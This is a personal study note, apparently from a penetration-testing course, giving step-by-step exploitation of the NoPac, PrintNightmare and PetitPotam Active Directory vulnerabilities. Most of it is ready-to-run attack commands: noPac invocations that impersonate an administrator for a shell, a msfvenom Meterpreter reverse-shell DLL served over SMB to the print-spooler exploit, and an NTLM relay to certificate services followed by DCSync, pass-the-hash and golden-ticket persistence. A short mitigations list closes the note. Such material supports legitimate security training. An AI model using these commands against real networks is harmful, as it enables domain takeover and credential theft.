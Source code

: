 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## NoPac (SamAccountName Spoofing) : Standard domain access
**CVEs**: 
- [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) : Bypass vulnerability with the Security Account Manager (SAM)
- [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) : Vulnerability with the Kerberos Privilege Attribute Certificate (PAC) in ADDS
**Writeup**: 
- [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699)
- [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
**Tool**: [noPac](https://github.com/Ridter/noPac) (includes a `scanner.py` and exploit `noPac.py`)

The idea is that you can change a computer account's SamAccountName to that of a DC. We can then request Kerberos tickets causing that service to issue tickets under the DC's name. This can give us SYSTEM shell access on the DC.

It relies on the `ms-DS-MachineAccountQuota` to not be `0` (*setting this to `0` can prevent a number of AD attacks*) as the user wouldn't be able to add new machine accounts.

```bash
sudo python3 scanner.py [domain]/[user]:[pass] -dc-ip [dc-ip] -use-ldap

sudo python3 noPac.py [domain]/[user]:[pass] -dc-ip [dc-ip] -dc-host [dc-name] -shell --impersonate administrator -use-ldap
```
> this can be very noisy and could be flagged by AV / EDR

This attack will leave the TGT on the attack host in the directory it was run. This `ccache` file could then be used for a [[Password Attacks#Pass-the-Hash|PtH]] or [[Abusing ACLs#DCSync|DCSync]] attack.
> We can use the `-dump` flag with noPac to a DCSync attack using [[Abusing ACLs#Using secretsdump.py|secretsdump.py]].

This tool makes use of `smbexec.py` (*from Impacket*) which can be quite noisy and easily detected by Windows Defender (*and other AVs*).

## PrintNightmare : Standard domain access
**CVEs**:
- [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) : Print spooler improperly performs privileged file operations, allowing RCE
- [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) : Not publicly disclosed - Allows RCE
**Tool**: [cube0x0's](https://twitter.com/cube0x0?lang=en)

There are a number of exploits out there that use the RCE vulnerabilities, [cube0x0's](https://twitter.com/cube0x0?lang=en) is a popular one.
> Annoyingly, [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit uses a modified version of Impacket. `github.com/cube0x0/impacket`.

```Bash
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
```
Lets us determine if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Create a DLL payload with [[MSFVenom]]
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ATK_host] LPORT=[ATK_port] -f dll > [filename].dll
```
> Make sure to start an MSF multi/handler
### Host the DLL in an SMB Server
```bash
sudo smbserver.py -smb2support [share_name] [path_to_dll]
```
### Exploit
```bash
sudo python3 CVE-2021-1675.py [domain]/[user]:[pass] '\\[ATK_host]\[share_name]\[filename].dll'
```

## PetitPotam (MS-EFSRPC) : Unauthenticated
**CVE**: 
- [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) : Unauthenticated attacker can coerce the DC to authenticate against another server (LSA Spoofing)
**Writeup**:
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/

By abusing the [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31), an unauthenticated attacker can force the DC to authenticate against another host using NTLM on port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc). This allows an attacker to take control of a domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

1. An authentication request from the targeted DC is relayed to the CA host's Web Enrolment page
2. The CA generates a Certificate Signing Request (CSR) for a new cert.
3. The cert can be used with tools like [[Rubeus]] or `gettgtpkinit.py` (*from [PKINITtools](https://github.com/dirkjanm/PKINITtools)*) to request a TGT for the DC
4. The TGT can then be used in a [[Abusing ACLs#DCSync|DCSync]] attack to compromise the domain

### Start an NTLM relay
The relay must point to the Web Enrolment URL for the CA host (*Can try [certi](https://github.com/zer1t0/certi) to locate it*) and it must use either the KerberosAuthentication or DomainController AD CS template.
```bash
sudo ntlmrelayx.py -debug -smb2support --target https://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
[PetitPotam.py](https://github.com/topotam/PetitPotam) will attempt to coerce the DC to authenticate to our host where our NTLM relay is running. This tool will attempt to coerce authentication via the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) method.
> There is a windows exe version, a PowerShell tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1) or Mimikatz can do it too `misc::efs /server:[dc-ip] /connect:[atk-ip]`

```bash
python3 PetitPotam.py [dc-ip] [atk-ip]
```

This will then cause the relay to request the CSR and the relay will return the base64 encoded cert.
```bash
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIS...CCJ8
```

### Requesting the TGT
We request the TGT and then tell Kerberos to use the ccache file so our attack host can use it for authentication.
```bash
python3 /opt/PKINITtools/gettgtpkinit.py [DOMAIN]/[DC-NAME]\$ -pfx-base64 [b64-cert] [outputfile].ccache

export KRB5CCNAME=[outputfile].ccache
```

### Using Domain Controller TGT to DCSync
This attempts to perform a DCSync attack against the administrator account for the DC by using the TGT we have collected. The tool will automatically collect the username (the machine account's name) from the ccache file so we don't have to specify it here.
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Authenticate as Administrator using PtH
```bash
crackmapexec smb [dc-ip] -u administrator -H [NT-hash]
```

### ALTERNATIVE - TGT request and PtT attack with [[Rubeus]]
[[Rubeus]] lets us perform the entire process of requesting the TGT and performing a [[Password Attacks#Pass the Ticket with Rubeus|Pass the Ticket]] attack with the DC machine account
```PowerShell
.\Rubeus.exe asktgt /user:[DC-MACHINE-ACCOUNT] /certificate:[base64-cert] /ptt
```
We can then see all the tickets in memory with `klist`. Since the DC has replication privileges we can use the pass-the-ticket to perform a DCSync attack with [[Mimikatz]]. We could grab the NT hash for the KRBTGT account which would let us create a Golden Ticket and establish persistence.

**DCSync with [[Mimikatz]]**
```PowerShell
.\mimikatz.exe

lsadump::dcsync /user:[domain]\[target-user]
```

### Mitigations for PetitPotam
- Apply patches for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) to any affected hosts
- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services are in use
> This [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) demonstrates a number of attacks against AD CS that can be performed using authenticated API calls (*it also contains mitigations*). This demonstrates why its important to do other measures not just patching this one CVE.